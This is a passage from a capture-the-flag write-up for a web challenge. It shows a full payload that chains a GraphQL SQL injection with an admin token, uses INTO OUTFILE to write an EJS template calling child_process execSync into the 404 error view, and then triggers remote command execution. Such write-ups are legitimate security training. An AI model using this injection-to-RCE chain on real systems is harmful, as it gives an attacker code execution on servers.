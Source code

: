 This looks promising. The function is dynamically fetching error templates that match the raised status code, e.g. if a `400` error occurs, `app/views/errors/400.ejs` will be rendered in the browser via `res.render()`. 

Looking at the existing error message templates shows the following: 

![image](../images/htb-ctf-2024/error-files.png)
*Existing error EJS templates*

There are templates for `400.ejs`, `401.ejs` and `500.ejs` - but no `404.ejs` (404 Not Found) template. 404 errors are easy enough to trigger in browser, so let's attempt to write a file again using our SQL injection payload - this time to `app/views/errors/404.ejs`.

```
{
    "url" :"localhost:1337/<iframe src='http://localhost:1337/graphql?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MTYyMTE4NDd9.Pk8ZBsRnCz82MIJhLuAfWJ6H0k4x2DaVlvY18dkCxYc&query=%7B%0A%20%20getDataByName(name%3A%22john%5C%5Cn%27UNION%20SELECT%201%2C1%2C1%2C%20%27%3C%25%3D%20global.process.mainModule.require(%60child_process%60).execSync(%60%2Freadflag%60).toString()%20%25%3E%27%20INTO%20OUTFILE%20%27%2Fapp%2Fviews%2Ferrors%2F404.ejs%27--%20%22)%20%7B%0A%20%20%20%20id%0A%20%20%20%20name%0A%20%20%7D%0A%7D' height='2000' width='1000'></iframe>"
}
```

Next, we visit a non-existant route (e.g. `/blah`) to trigger a 404 error:

![image](../images/htb-ctf-2024/flag.png)
*`/readlag` executed and flag rendered*
